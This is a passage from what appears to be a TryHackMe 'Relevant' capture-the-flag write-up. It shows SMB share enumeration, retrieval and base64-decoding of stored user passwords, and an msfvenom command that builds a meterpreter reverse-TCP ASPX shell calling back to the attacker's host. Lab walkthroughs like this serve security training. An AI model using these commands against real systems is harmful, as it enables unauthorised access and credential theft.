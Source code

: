 ```
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-10-14T19:34:24
|_  start_date: 2020-10-14T19:29:46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.45 seconds
```

```
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient -L //10.10.9.11
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
SMB1 disabled -- no workgroup available
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 23:46:04 2020
  ..                                  D        0  Sat Jul 25 23:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4950835 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit
kali@kali:~/CTFs/tryhackme/Relevant$ cat passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

kali@kali:~/CTFs/tryhackme/Relevant$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

kali@kali:~/CTFs/tryhackme/Relevant$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

`Bob:!P@$$W0rD!123`

`Bill:Juw4nnaM4n420696969!$$$`

```
kali@kali:~/CTFs/tryhackme/Relevant$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.106.222 lport=4444 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201283 bytes
Final size of aspx file: 1015556 bytes
Saved as: shell.aspx
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx^C
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
```